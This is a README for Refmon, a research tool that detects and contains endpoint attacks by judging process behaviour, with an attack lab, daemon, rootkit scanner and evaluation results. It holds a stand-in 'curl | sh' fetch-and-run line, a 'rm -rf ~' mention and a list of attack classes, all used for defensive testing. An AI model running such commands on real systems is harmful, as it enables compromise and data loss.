





# Refmon

Refmon (`v2.0`, package `refmon 2.0.0`) detects, contains and explains attacks on endpoints and
shared Linux servers by judging **behaviour**, not signatures. It does not try to recognise an
exploit, a lure or a malware family. After an attack succeeds the attacker still has to act (run
code, write files, connect out, read secrets, persist, hide), and those actions break the role of
the process that was exploited. Refmon watches for that consequence, so it is meant to catch attack
types that do not exist yet.



**Contents:** [Status](#status) · [How it works](#how-it-works) · [Install](#install) ·
[Quick start: the attack lab](#quick-start-the-attack-lab) · [Logs and analysis](#logs-and-analysis) ·
[Live barrier](#live-barrier-daemon-guard-and-web-dashboard) · [Rootkit scanner](#rootkit-scanner) ·
[Tests](#tests-and-reproduction) · [Results](#results) ·
[Package and deployment](#package-and-deployment) · [Paper](#paper) ·
[Pushing to GitHub](#pushing-to-github) · [Layout](#layout) · [Versions](#versions)

## Status

Refmon is a **research reference monitor**. What exists and works today:

- the full decision pipeline with a signed policy, verified by 46 golden scenarios, seeded mutation
  matrices (886 variants in the last round) and over 1,900 automated tests;
- an **interactive CLI attack lab** (`refmon lab`): 35 harmless attack and benign templates, each
  judged by the live pipeline *before* it may run, with saved logs and an automatic analysis;
- an unprivileged **live barrier** (`refmon serve`, `refmon guard`) with a token-protected local web
  dashboard, a heartbeat, periodic self-tests and notifications (webhook or any command, such as
  `mail`), plus `refmon health` to watch it from outside;
- a read-only six-engine **rootkit scanner** (`refmon scan-rootkit`);
- a **LaTeX paper** with eight charts generated from the committed evaluation data, and a
  companion diagram book.

What does **not** exist yet: kernel sensors that see every process, file and connection on a host,
and an enforcer that really pauses, kills or cuts the network of a process (the repository has a
simulated enforcer only). Until then Refmon judges what is sent to it (commands through `guard` or
the lab, files in its watched sandbox, recorded event files); it cannot yet sit transparently
between the users and the servers of an organisation. See [Package and deployment](#package-and-deployment)
and [docs/phase-8-plan.md](docs/phase-8-plan.md). No real malware, exploit or personal data is in
the repository: every scenario and template is a harmless, self-made stand-in.

## How it works

Every event (a program started, a file written, a connection, a pasted command ...) passes a
six-stage pipeline:

| Stage | What it does |
|---|---|
| **Observe** | replaces all content (commands, URLs, paths, bodies) by per-device `hmac:sha256` fingerprints and keeps only the outcome of checks done on the raw value (destination class, canary hit, entropy of the text); raw events live in memory for at most ten minutes |
| **Tag** | puts an *origin label* on anything that came from outside (web, mail, removable media, an inbound request, a download, AI-agent input) and propagates it to child processes and written files; labels fade with a half-life unless persistent |
| **Link** | groups related events into a *story* (process tree plus quiet window) |
| **Judge** | asks the three questions below and scores the evidence |
| **Gate / Contain** | turns the decision into actions: block (kill tree, cut network, quarantine new files, revert persistence, restore files) or hold (ask the user on an endpoint, pause and quarantine pending an admin on a server); every action has an undo record; only labeled objects are touched |
| **Report** | plain-language verdicts mapped to MITRE ATT&CK tactics, under pseudonyms |

The three questions, asked of every story:

| Question | Fails when |
|---|---|
| **Origin** | the triggering input came from outside the trust boundary |
| **Contract** | a process does something outside its role: a web worker starting a shell, a shell running pasted text, any process tampering with security tools, changing many files, fanning out, or launching an unsigned external file |
| **Effect** | it tries a dangerous action: fetch, hide, persist, escalate, lateral movement, exfiltration, tamper, credential or protected-asset access, mass change |

Three failed questions are a block, two a hold, fewer an allow. Underneath, a monotone *evidence
calculus* scores the signals as log-likelihood ratios,
`L = ln(π/(1-π)) + Σ_q max_j w_j·s_j`, starting from the prior `-6.91` nats, with cost-derived
thresholds `τ_hold = -4.94` and `τ_block = -3.91`. A **contract gate** never blocks without a
Contract signal. Overrides are absolute: reading a canary (decoy), a labeled process touching a
protected asset, or tampering with Refmon itself always block. The 3/2/1 count stays as the
human-readable explanation. Example (ClickFix paste): `-6.91 + 0.8 (origin) + 1.0 (pasted text) +
2.5 (fetch from an unknown host) = -2.61 ≥ -3.91 → BLOCK`.

There is no machine learning: deterministic rules, counted baselines (Laplace surprisal with
Good-Turing maturity gating, dual-window Poisson burst tests, incident-frozen EMA and CUSUM), and
policies signed with Ed25519. Nothing changes the policy without a person approving it.

## Install

Python 3.12 or newer. On the cluster `python3` is 3.6, so the Makefile uses `python3.12`.

```bash
make install                  # .venv with python3.12, then pip (or uv) install -e ".[dev]"
```

This installs the `refmon` command into `.venv/bin/` (`.venv/bin/refmon ...` and
`.venv/bin/python -m refmon.cli ...` are the same). Runtime dependencies: `pydantic`, `pyyaml`,
`cryptography`; the tests also need `pytest`, `hypothesis` and `ruff`.

## Quick start: the attack lab

```bash
make lab                                         # interactive menu
.venv/bin/python -m refmon.cli lab --help        # step-by-step test guide (in the lab: guide)
.venv/bin/python -m refmon.cli lab --test-all    # all 35 templates, results table, analysis, saved logs
```

The lab shows a menu of 35 templates: 28 attacks (ClickFix and obfuscated pastes, a base64 mail
one-liner, AI prompt injection, reverse shells, a reverse SSH tunnel, `LD_PRELOAD`, SUID and `sudo`
escalation, a privileged container, credential and SSH-key theft, a canary, exfiltration of the
home tree, persistence via `.bashrc`, git hooks and cron, killing Refmon, stopping auditd, wiping
history, ransomware encryption, a wiper, web-worker RCE, typosquatting, a web-shell drop and a
60-file ransomware burst), one known limit and six benign controls. Every command goes through the
live pipeline **before** it may run; only what Refmon allows is executed, in the sandbox (working
directory `attack-lab/sandbox/workspace`, `HOME` = a fake home with fake keys, 5 s timeout).

At the `refmon-lab>` prompt:

| Type | Does |
|---|---|
| `1`, `clickfix`, `1-9`, `attacks`, `benign`, `all` | run templates |
| `$ <command>` | your own command: Refmon judges it first, runs it only if allowed (a hold asks you) |
| `o web` / `o mail` / `o agent_input` / `o none` | the origin of your own commands (pasted from a web page, ...) |
| `e 3` | edit template 3 and run your variant |
| `m block` / `m warn` / `m observe` | enforce, or only log (re-signs the policy) |
| `table`, `results`, `analysis`, `s` | attack table, results so far, what they mean, score |
| `test-all`, `save` | run everything and save / save what you ran |
| `h`, `guide`, `q` | help, walkthrough, quit (saves the session) |

Without the menu:

```bash
.venv/bin/python -m refmon.cli lab --table                       # table of all attacks
.venv/bin/python -m refmon.cli lab --run 1 13 web_shell --save   # some templates, saved
.venv/bin/python -m refmon.cli lab --test-all --mode observe     # what gets through when Refmon only logs
.venv/bin/python -m refmon.cli lab --analyze                     # analysis of the newest saved run
.venv/bin/python -m refmon.cli lab --compare attack-lab/runs/run-*   # saved runs side by side
```

`--test-all` exits with 0 when every check passed (usable in scripts). Every template is a harmless
stand-in (`.invalid` hosts that never resolve, fake credentials). The templates that would touch the
real system if they ran (`sudo`, `crontab`, `systemctl`, `pkill`, `docker`, `rm -rf ~`, `tar ~`) are
judged but never executed, even when Refmon allows them or the mode only logs. Your own `$` commands
do run when allowed. The full attack table and a reference run are in
[docs/attack-lab.md](docs/attack-lab.md).

## Logs and analysis

Everything the lab writes is in **`attack-lab/`** in the repository (gitignored: it holds the
private signing key), whichever directory you start it from:

```text
attack-lab/
├── logs/            Refmon's own logs
│   ├── barrier.log      readable: every verdict, quarantine and mode change   (tail -f it)
│   ├── verdicts.jsonl   every verdict in full
│   └── events.jsonl     every observed event, content only as hmac: fingerprints
├── runs/            one folder per saved run: run-<UTC time>/
│   ├── report.md        summary, analysis, score per category, results table, every explanation
│   ├── analysis.txt     the analysis only
│   ├── results.csv      one row per command (spreadsheet)
│   ├── results.jsonl    the same, every field (scripts)
│   ├── summary.json     totals, thresholds, weights, version, git commit, policy digest
│   ├── templates.md     the attack table
│   └── console.log      the screen output
├── sandbox/         fakehome/, workspace/, web_root/, secrets/ (the canary)
├── quarantine/      files Refmon moved away (mode 0400, never deleted)
└── policy.yaml, admin.key, admin.pub, device.key, api.token
```

The **analysis** (`lab --analyze`, `analysis` in the lab, top of `report.md`) explains a run:
detection and prevention rates; which of the three questions caught each attack; the overrides;
the evidence margin of every block above `τ_block`; what each block becomes when **any one of its
signals is removed** (computed from the policy weights, with the contract gate); the benign command closest to a false alarm;
pairs of malicious and harmless commands that get identical evidence (blind spots); how often each
signal fired; where the evidence calculus overruled the 3/2/1 rule; and the decision time.

Your own `$` commands are stored in saved runs only as an `hmac:` fingerprint without output,
unless the lab is started with `--record-own-commands`. To use other locations: `--workdir DIR`
(the whole lab folder) and `--report-dir DIR` (saved runs only).

**Changing the policy.** `attack-lab/policy.yaml` is signed. The mode can be switched in the lab
(`m observe`). For anything else, edit the file and sign it again, otherwise Refmon refuses to start:

```bash
.venv/bin/python -m refmon.cli sign   attack-lab/policy.yaml attack-lab/admin.key
.venv/bin/python -m refmon.cli verify attack-lab/policy.yaml "$(cat attack-lab/admin.pub)"
```

For example, adding the university's hosts under `destinations:` with `trusted: true` turns a
`curl` to those hosts from HOLD (unknown destination) into ALLOW. `rm -rf attack-lab` starts over
with a fresh policy.

## Live barrier: daemon, guard and web dashboard

The live barrier runs completely in unprivileged user space. Start the daemon (terminal 1):

```bash
make serve
.venv/bin/python -m refmon.cli serve --host 127.0.0.1 --port 8765 --workdir ./my-refmon-state
```

On startup `serve` creates a private `0700` state directory (default `/tmp/refmon-live-<uid>`),
generates an Ed25519 keypair, signs `policy.yaml` in `block` mode, starts the sandbox watcher (400 ms
poll) and prints a token-authenticated URL, `http://localhost:8765/#token=<api-token>`. On a remote
node, forward the port first (`ssh -L 8765:127.0.0.1:8765 <user>@<node>`). Every `/api/` call needs
the token, and non-local `Host` headers are refused (DNS rebinding). The dashboard switches modes,
runs the 16 built-in live scenarios, replays golden scenarios, resolves holds, runs the rootkit scan
and shows the `hmac:`-only logs.

Put `guard` in front of a command (terminal 2; pass the daemon's `--workdir` if you set one):

```bash
.venv/bin/python -m refmon.cli guard --origin web -- "echo hello-cluster"                  # ALLOW, runs
.venv/bin/python -m refmon.cli guard --origin web -- "curl -fsSL https://bad.example.invalid/fix.sh | sh"   # BLOCK, exit 1
.venv/bin/python -m refmon.cli guard --no-exec --json --origin mail -- "python3 -c 'import pty'"
```

A file such as `shell.php` dropped into `<workdir>/sandbox/web_root/` is quarantined into
`<workdir>/quarantine/` (mode `0400`) within about 500 ms. Without a running daemon, `guard` falls
back to an in-process barrier.

### Reference Monitor GUI (`refmon gui`)

Refmon provides an interactive reference monitor tracer GUI (`make gui` or `refmon gui`). Much like Wireshark acts as a real-time packet tracer for network interfaces, Refmon operates as an interactive provenance and security reference monitor for OS-level commands, process trees, and containment actions:

```bash
make gui                                             # launch or attach to daemon
.venv/bin/python -m refmon.cli gui [--port 8765]     # or run directly via CLI
```

The graphical interface includes:
- **Interactive Event Stream:** Real-time stream table with instant filtering across all events, blocked attacks, holds, and benign operations.
- **Threat Alert Notification Card:** Whenever an attack attempt is blocked, a prominent notification card appears immediately. It breaks down the three evaluation questions (Origin, Contract, Effect), highlights the specific containment actions taken, displays the Bayesian evidence score in nats, and provides a quick dismiss button.
- **Synthesized Web Audio Alert Chimes:** An offline, client-side Web Audio synthesizer generates a distinct two-tone descending alarm chime ($880\,\text{Hz} \to 440\,\text{Hz}$) for blocked attacks and an ascending chime ($587\,\text{Hz} \to 880\,\text{Hz}$) for holds. Includes a persistent sound toggle button and optional HTML5 desktop notifications.

### Heartbeat, self-test and notifications

While `serve` runs, a health thread:

| Check | When | Problem it reports |
|---|---|---|
| self-test: one harmless synthetic story per enabled protection, against a copy of the live pipeline | at start, then every `self_test.interval` of the signed policy (6 h) | *Protection not working* (a protection missed its expected decision) |
| heartbeat to `<workdir>/heartbeat.json` | every `heartbeat.interval` (60 s), and at once when a problem appears or clears | - |
| sandbox watcher alive | every second | *Sandbox watcher stopped* |
| policy file on disk | every second | *Policy rejected* (fails its signature; the last valid policy stays); a validly signed change is adopted |
| rootkit scan | at start, then every `--rootkit-interval` s (3600) | *Rootkit scan: HOLD/BLOCK* |
| sensors | at start | *Degraded protection*: the live barrier has no host sensor for process ancestry, connections, ... |

A notification goes out when a problem **appears** and when it **clears** (*Recovered*), never on
every tick. Blocks and holds are notified once per story with their final decision; dashboard
demos (presets, golden replays) never are. Every notification is written to
`<workdir>/logs/notifications.jsonl` and printed on the daemon's terminal. Like a verdict that
leaves the device, it carries fixed phrases, numbers and a device pseudonym only: never a command,
path, URL, host name or user name.

External channels get the categories `block`, `hold`, `alert`, `rootkit` and `lifecycle` (started,
stopped, mode changed) unless `--notify-on` says otherwise (`degraded`, or `all`):

```bash
# a Slack/Mattermost/Rocket.Chat incoming webhook ({"text": ..., "refmon": {...}} is POSTed)
.venv/bin/python -m refmon.cli serve --notify-webhook https://chat.example.org/hooks/XYZ
# any program, run without a shell: the notification as JSON on stdin,
# the headline in $REFMON_TITLE, $REFMON_SEVERITY, $REFMON_CATEGORY and $REFMON_TEXT
.venv/bin/python -m refmon.cli serve --notify-command "mail -s Refmon you@example.org"
.venv/bin/python -m refmon.cli serve --notify-command "notify-send Refmon" --notify-on all
```

A daemon cannot report its own crash, so watch it from outside with `refmon health`. It reads the
heartbeat file, checks that the process still exists, and exits with 0 (healthy), 1 (not running
or heartbeat stale) or 2 (running with a problem). With `--notify-*` options it notifies once when
the state changes and once when it recovers, so it can run from cron every few minutes:

```bash
make health                                                          # or:
.venv/bin/python -m refmon.cli health [--workdir DIR] [--json]
# crontab -e:
*/5 * * * * cd ~/Refmon && .venv/bin/python -m refmon.cli health --notify-command "mail -s Refmon you@example.org" >/dev/null
```

`serve` stops cleanly on Ctrl-C and on `SIGTERM` (as sent by `kill` or systemd) and then sends
*Refmon stopped*.

## Rootkit scanner

```bash
make scan-rootkit
.venv/bin/python -m refmon.cli scan-rootkit --passes 2 --interval-ms 50 [--json] [--with-external]
```

Read-only, no `root` needed, six engines: dynamic-linker hijacking (`ld.so.preload`, `LD_PRELOAD`,
`LD_AUDIT`, deleted `.so` mappings); fileless execution (`memfd:`, deleted `/proc/<pid>/exe`,
binaries in `/dev/shm` or `/tmp`, `TracerPid`, anonymous `rwxp`); kernel-module cross-view and taint
decoding; process cross-view across `m ≥ 2` passes; socket cross-view and promiscuous interfaces;
optional `unhide`/`chkrootkit`/`rkhunter` bridge.

Exit codes: 0 allow, 1 hold (findings to review), 2 block. So `make scan-rootkit` reports
`Error 1` or `Error 2` when there is something to look at.

JIT compilers (Node, Bun, Java, VS Code, Claude Code, browsers, ...) keep anonymous writable and
executable memory for the code they generate. When the executable of such a process matches a known
JIT runtime path, the region is shown as a note (`anonymous rwx memory in 1 JIT runtime process
(claude_code x1): ... not scored`) instead of counting as evidence. A deleted, `memfd:` or `/tmp`
executable is never excused, whatever its name, and every other check of that process still runs.
Malware running as your own user could copy itself to a matching path; `--strict-jit` scores these
regions anyway.

## Tests and reproduction

```bash
make test                                                 # all tests, about one minute
.venv/bin/python -m pytest -q tests/test_attacklab.py     # only the attack lab
make lint                                                 # ruff check + format check
make all                                                  # lint, tests, privacy audit, robustness matrix, publishability check
make reproduce                                            # regenerate every result table (slow)
```

Over 1,900 tests: unit tests per rule, contract, effect and override; Hypothesis property tests
(labels never lost, no raw content after Observe, Contain never touches an unlabeled object, ...);
replay of the 46 golden scenarios; the privacy audit; rootkit, live-barrier, CLI and attack-lab
tests. One test is an expected failure (`xfail`): a documented limit of the S19 stand-in.
`make reproduce` (several minutes) generates the variants of the active pre-registered seed,
replays them in the tagged versions that seed was recorded for (`v1.7` and `v2.0`), checks that the
result equals the committed per-variant data in `docs/evaluation/`, compares the versions with
Wilson intervals and exact McNemar tests, and refreshes the generated tables of
[docs/results.md](docs/results.md). It refuses a tag that does not hold its version's code. `scripts/check_publishable.py` checks that no secret, home path
or personal data is in the tree or the history.

## Results

**Golden catalog:** 46/46 scenarios reach their expected decision.



**Seeded mutation matrix (v2.0, pre-registered seed `171139148`, 886 variants):**

| | v1.7 | v2.0 |
|---|---:|---:|
| malicious contained (block + effective hold), of 635 | 625 (98.4 %) | **625 (98.4 %, Wilson [97.1, 99.1])** |
| malicious blocked outright | 483 | 483 |
| neutral benign allow / hold / block, of 158 | 132 / 24 / 2 | **137 / 21 / 0** |
| neutral false-block rate | 1.3 % | **0.0 % [0.0, 2.4]** |

Every pre-registered round, each on its own seed: no change lowered containment, and v2.0 is the
first version with no false block.



All ten uncontained malicious variants fall in five scenarios, and every one is a documented gap:
`S19` and `S27` are slow-and-low (G2 to G5, timing beyond the rate windows), and `S05`, `S07` and
`S13` each lose one combination that sends a process with no external lineage to a trusted host
(G1). Every one-factor mutation except timing stays fully contained.



**Attack lab (`lab --test-all`, block mode):**

| | |
|---|---|
| attacks detected (block or hold) | **28/28** |
| attacks stopped (never ran or quarantined) | **27/28**; the 60-file burst is detected after the files are written |
| benign commands allowed | **6/6**, no false alarm |
| known limit (a script run by name) | missed, as documented |
| decision time | median 4.5 ms per command (32 of 35 under 10 ms), before it runs |

What the analysis of that run shows:
- Contract failed in 27/28 attacks, Effect in 27/28, Origin in 24/28; four attacks (`canary`,
  `kill_refmon`, `wipe_home`, `ransom_burst`) were caught **with no outside origin at all**, which is
  the point of judging consequences rather than entry.
- **Remove any one signal** from the 22 score-based blocks (the other six are overrides): **9 would
  be allowed silently**, 12 only held (mostly by the contract gate), 1 stays blocked. For a pasted
  command, origin and contract alone give exactly `-5.11`, just under `τ_hold` (by design: scenario
  S11, harmless pasted commands are not interrupted), so those nine blocks rest on the
  pre-execution analysis seeing one dangerous Effect in the command text.
- The harmless `pasted_echo` sits **0.17 nats** under `τ_hold`, and the malicious `hidden_script`
  gets the **same evidence**: from command text alone they cannot be told apart. A tutorial command
  that downloads from a host not in the policy is blocked like ClickFix, so a deployment must list
  its own trusted hosts.
- The calculus overruled the 3/2/1 rule five times: three 2-fail attacks become BLOCK instead of
  HOLD, two pasted 2-fail commands become ALLOW instead of HOLD.



The reference run is committed (trimmed: no command text, paths or output) as
`docs/evaluation/lab-reference-run.json`; the charts are built from it and from the per-variant
files (`make -C documentation figures`).

Version history and every table: [docs/results.md](docs/results.md),
[docs/v2.0-evaluation.md](docs/v2.0-evaluation.md), [docs/attack-lab.md](docs/attack-lab.md).

## Package and deployment

**What Refmon is now.** A normal Python package (`pyproject.toml`, build backend `hatchling`,
version `2.0.0`). `pip install .` (or `pip install git+https://github.com/parsabe/Refmon.git`)
installs the library and one command, `refmon`, with these subcommands:

| Subcommand | Kind |
|---|---|
| `lab` | the interactive attack lab |
| `gui` | interactive reference monitor tracer GUI (desktop / browser, like Wireshark) |
| `serve` | long-running daemon: barrier, sandbox watcher, local web dashboard |
| `guard` | one-shot client: judge a command before it runs |
| `scan-rootkit` | one-shot read-only host scan |
| `health` | one-shot: is the daemon alive and healthy (for cron), notifies on change |
| `keygen`, `init-policy`, `sign`, `verify` | the signed policy |
| `learn`, `approve`, `apply` | contract learning: proposals that a person approves |
| `audit` | the privacy audit |

Installed outside the repository, everything except the golden replay works (the 46 golden files
live in `tests/golden/` and are not part of the wheel); the lab then writes `attack-lab/` in the
current directory.

### Standalone OS Packages (`.deb` and `.rpm`)

For deployment on Linux systems without Python build tools or `make install`, Refmon provides pre-built distribution packages in `dist/`:

- **Debian / Ubuntu / Linux Mint:**
  ```bash
  sudo dpkg -i dist/refmon_2.0.0_all.deb
  ```
- **Fedora / RHEL / CentOS / Rocky Linux / openSUSE:**
  ```bash
  sudo rpm -ivh dist/refmon-2.0.0-1.noarch.rpm
  ```

Building packages from source:
```bash
make deb          # build dist/refmon_2.0.0_all.deb
make rpm          # build dist/refmon-2.0.0-1.noarch.rpm
make packages     # build both packages
```

Each package installs:
- The system executable `/usr/bin/refmon`
- Desktop environment integration via `/usr/share/applications/refmon.desktop`
- Scalable application icon in `/usr/share/icons/hicolor/scalable/apps/refmon.svg`
- Reference configuration and documentation in `/usr/share/doc/refmon/`

**Running all the time.** Only `serve` is meant to run continuously. Today it runs as your own user
and can be kept alive with `tmux`, `nohup` or a `systemd --user` unit where the host allows that,
with `refmon health` from cron as the outside watchdog (see
[Heartbeat, self-test and notifications](#heartbeat-self-test-and-notifications)). For example
`~/.config/systemd/user/refmon.service`:

```ini
[Unit]
Description=Refmon live barrier

[Service]
WorkingDirectory=%h/Refmon
ExecStart=%h/Refmon/.venv/bin/python -m refmon.cli serve --workdir %h/.refmon --notify-command "mail -s Refmon you@example.org"
Restart=on-failure

[Install]
WantedBy=default.target
```

Start it with `systemctl --user enable --now refmon`. Running always does not make it a barrier for
the whole host: it still sees only what is sent to it and its own sandbox, its enforcer is
simulated, and its heartbeat says so (*Degraded protection*).

**What a deployment between users and servers needs** (Phase 8 and 9 of `CLAUDE.md`; details in
[docs/phase-8-plan.md](docs/phase-8-plan.md)):

1. Agreement of the operator: the computing centre's IT security, and for monitoring staff
   machines in Germany also the data protection officer (a DPIA) and the staff council.
2. An isolated lab VM with root access, snapshots and no internet.
3. A kernel **sensor** behind `Sensor.emit` (eBPF, or `auditd`/`fanotify` to start): process
   execution and ancestry, file writes, connections, privilege changes, persistence, tampering.
4. A real **enforcer** behind `Enforcer.act`: `SIGSTOP`/cgroup freezer for holds, tree kill,
   nftables network cut, root-owned quarantine, each with its undo.
5. Lab validation: every scenario as a real harmless stand-in; lab verdicts must equal replay
   verdicts; measured per-event overhead.
6. A site policy: real destinations and trusted sources, roles for the site's servers, contracts
   learned in learning mode and approved by a person.
7. A pilot in observe mode, measured against the targets fixed in advance (no benign block per
   week, at most one hold per user per week), then warn and block, role by role, as a root-owned
   system service with central pseudonymous reporting and heartbeat monitoring.

## Paper

The two-column LaTeX paper (method, mathematics, algorithms, experiments with eight data-driven
charts, the attack lab, the daemon's self-monitoring, discussion, deployment status, and the proofs
in the appendices; 26 pages) and the level-by-level diagram book are in
[documentation/](documentation/), with the built `main.pdf`:

```bash
make -C documentation figures        # the evaluation charts, from docs/evaluation/ (pip install -e ".[paper]")
make -C documentation pdf            # documentation/main.pdf (pdflatex, twice)
make -C documentation diagrams       # the level-by-level diagram book
make -C documentation overleaf-zip   # refmon-paper-overleaf.zip
```

The charts are vector PDFs built by `documentation/make_figures.py` from `docs/evaluation/`, with
the outcome classes of `scripts/compare_versions.py`, so a chart cannot disagree with a table;
rebuilding them from unchanged data gives byte-identical files. See
[documentation/README.md](documentation/README.md).

## Pushing to GitHub

```bash
scripts/push_to_github.sh --dry-run    # checks, and what would be pushed; pushes nothing
scripts/push_to_github.sh              # checks, shows, asks [y/N], then pushes
```

It pushes `master` and the tags `v1.7` and `v2.0` only, never force-pushes, and first runs lint,
the tests and the publishability check. It never logs in or asks for a password: it uses the
credentials git on this machine already has (an SSH key in ssh-agent, or a credential helper) and
stops with a message if there are none. Pushing publishes the author name and e-mail of the
commits.

## Layout

| Path | What |
|---|---|
| `src/refmon/pipeline/` | `observe`, `tag`, `link`, `judge`, `rates`, `signals`, `features`, `pipeline` |
| `src/refmon/calculus/` | evidence (log-likelihood ratios, thresholds), labels (decay, noisy-OR), rarity (Laplace, Good-Turing), stats (Poisson, CUSUM), privacy (Laplace noise, k-anonymity, Bloom) |
| `src/refmon/schemas/` | typed models: events, labels, stories, contracts, verdicts, actions |
| `src/refmon/` | `gate.py`, `contain.py` (reversible containment), `policy*.py`, `signing.py`, `learning.py`, `tune.py`, `exposure.py`, `selftest.py`, `heartbeat.py`, `health.py` (the daemon's heartbeat, self-test and watchdog), `notify.py` (notification channels), `report.py`, `pseudonym.py`, `audit.py`, `variants.py`, `intent.py` (pre-execution command intent), `live.py`, `live_ui.py` (daemon and dashboard), `rootkit.py`, `attacklab.py`, `labreport.py` (attack lab, tables, saved runs, analysis), `cli.py` |
| `tests/` | unit, property, replay, live, rootkit and lab tests; `tests/golden/` holds the 46 scenarios |
| `scripts/` | `reproduce.py`, `generate_variants.py`, `dump_matrix.py`, `compare_versions.py`, `check_publishable.py`, `push_to_github.sh` |
| `docs/` | `results.md`, `attack-lab.md`, `design-decisions.md`, `progress.md`, `review-list.md`, `variant-seeds.md`, `v1.x`/`v2.0-evaluation.md`, `phase-8-plan.md`, `evaluation/` (per-variant results of every seed, the lab reference run), `img/` (README charts) |
| `documentation/` | the LaTeX paper (`main.tex`, `main.pdf`), `make_figures.py` and `figures/`, the diagram book (`diagrams.tex`, `diagrams/`) |
| `attack-lab/` | created by `refmon lab`, gitignored (see [Logs and analysis](#logs-and-analysis)) |
| `CLAUDE.md` | the specification: architecture, scenario catalog, evidence calculus (C11), coverage map (C13); tests check weights and coverage against it |

## Versions

